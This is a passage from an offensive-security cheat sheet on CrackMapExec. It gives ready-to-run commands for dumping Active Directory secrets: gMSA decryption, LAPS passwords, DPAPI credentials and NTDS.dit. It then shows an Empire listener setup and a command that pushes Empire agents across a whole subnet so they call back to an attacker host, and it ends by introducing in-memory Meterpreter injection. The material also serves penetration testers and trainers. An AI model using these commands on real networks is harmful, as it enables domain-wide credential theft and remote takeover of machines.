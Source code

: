 crackmapexec ldap <domain> -u <username> -p <password> --gmsa-convert-id <id>
Decrypt the gmsa account in lsa with --gmsa-decrypt-lsa:
crackmapexec ldap <domain> -u <username> -p <password> --gmsa-decrypt-lsa <gmsa_account>
Dump LAPS password
crackmapexec smb targets.txt -u <username> -p <password> --laps
Dump the credentials of the dpapi
crackmapexec smb targets.txt -u <username> -p <password> --laps --dpapi
Dump NTDS.dit
crackmapexec smb <domain> -u <username> -p <password> --ntds
References
https://github.com/mpgn/CrackMapExec
https://wiki.porchetta.industries/smb-protocol/scan-for-vulnerabilities
Crackmapexec to Empire agent
First setup an Empire listener:

(Empire: listeners) > set Name test
(Empire: listeners) > set Host 192.168.10.3
(Empire: listeners) > set Port 9090
(Empire: listeners) > set CertPath data/empire.pem
(Empire: listeners) > run
(Empire: listeners) > list

[*] Active listeners:

  ID    Name              Host                                 Type      Delay/Jitter   KillDate    Redirect Target
  --    ----              ----                                 -------   ------------   --------    ---------------
  1     test              http://192.168.10.3:9090                 native    5/0.0                      

(Empire: listeners) > 
Start up Empire's RESTful API server:

#~ python empire --rest --user empireadmin --pass Password123!

[*] Loading modules from: /home/byt3bl33d3r/Tools/Empire/lib/modules/
 * Starting Empire RESTful API on port: 1337
 * RESTful API token: l5l051eqiqe70c75dis68qjheg7b19di7n8auzml
 * Running on https://0.0.0.0:1337/ (Press CTRL+C to quit)
The username and password that CME uses to authenticate to Empire's RESTful API are stored in the cme.conf file located at ~/.cme/cme.conf:

[Empire]
api_host=127.0.0.1
api_port=1337
username=empireadmin
password=Password123!

[Metasploit]
rpc_host=127.0.0.1
rpc_port=55552
password=abc123
Then just run the empire_exec module and specify the listener name:

#~ crackmapexec 192.168.10.0/24 -u username -p password -M empire_exec -o LISTENER=test
Crackmapexec to Meterpreter
We can use the metinject module to directly inject meterpreter into memory using PowerSploit's Invoke-Shellcode.ps1 script.
